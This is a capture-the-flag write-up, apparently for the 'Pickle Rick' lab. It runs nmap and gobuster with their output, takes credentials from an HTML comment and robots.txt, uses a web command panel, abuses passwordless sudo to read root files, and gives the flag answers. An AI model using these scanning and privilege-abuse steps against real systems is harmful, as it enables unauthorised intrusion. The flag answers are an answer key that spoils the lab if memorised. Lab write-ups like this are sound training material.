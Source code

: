 ![Pickle Rick](Pickle%20Rick.png)
# Enumeration
```
nmap -sC -sV -v 10.10.45.121
Discovered open port 22/tcp on 10.10.45.121
Discovered open port 80/tcp on 10.10.45.121
Completed SYN Stealth Scan at 19:53, 1.27s elapsed (1000 total ports)
Initiating Service scan at 19:53
Scanning 2 services on ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Completed Service scan at 19:53, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.45.121.
Initiating NSE at 19:53
Completed NSE at 19:53, 0.27s elapsed
Initiating NSE at 19:53
Completed NSE at 19:53, 0.00s elapsed
Nmap scan report for ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E0:E3:9F:80:FF (Unknown)
```
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/08/26 19:56:09 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/08/26 19:56:21 Finished
===============================================================
```
In site source code there is a comment
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Username: R1ckRul3s
We need to find the password, enumerate more. In robotx.txt subdir of site we have `Wubbalubbadubdub` this could be a password
Password: Wubbalubbadubdub

This credentials seems not for ssh, we need to find a login page for this. Based from assets there is portal jpeg. This can be a hint that the login page is named portal, I tried using gobuster but the portal subdirectory is not showing maybe with the seclists i used.

The reason why i cant find the login page is im missing arguments in my command which is **-x** string File extension(s) to search for (dir mode only)
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2024/08/26 20:09:25 Starting gobuster
===============================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
Progress: 50094 / 1273834 (3.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/08/26 20:09:33 Finished
===============================================================
```
we can now login using the credentials we found.
![Pickril](pickril.png)
![Pickrleks](pickrleks.png)
Great! we can execute some commands
![Pckerl](pckerl.png)
ls command is not working, less commands work. We got the first flag.

Lets see if we can execute some sudo command 
```
sudo -l

Matching Defaults entries for www-data on ip-10-10-45-121:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-45-121:
    (ALL) NOPASSWD: ALL
```
Lets enumerate the directory
```
sudo ls /home
rick
ubuntu

sudo ls /home/rick
second ingredients
sudo less /home/rick/second\ ingredients
1 jerry tear
```
we found the second flag, lets enumerate more.
we found a lot of directories using the command. Root directory is interesting, it has 3rd.txt file
```
sudo ls /*
sudo ls /root
sudo less /root/3rd.txt
```
# What is the first ingredient that Rick needs?  
mr. meeseek hair


# What is the second ingredient in Rick’s potion?  
1 jerry tear


# What is the last and final ingredient?
fleeb juice
